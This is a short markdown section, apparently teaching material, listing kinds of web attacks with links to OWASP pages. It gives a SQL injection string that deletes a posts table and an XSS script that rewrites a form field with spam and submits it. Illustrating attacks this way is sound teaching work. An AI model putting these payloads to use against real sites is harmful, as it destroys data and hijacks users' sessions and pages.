 ### Kinds of attacks
- https://www.owasp.org/index.php/SQL_Injection
  ```
    '); delete from posts; --
  ```
- https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)
  ```
  <script>
  setTimeout(function() {
      var tt = document.getElementById('content');
      tt.value = "<h2 style='color: #FF6699; font-family: Comic Sans MS'>Spam, spam, spam, spam,<br>Wonderful spam, glorious  spam!</h2>";
      tt.form.submit();
  }, 2500);
  </script>
```
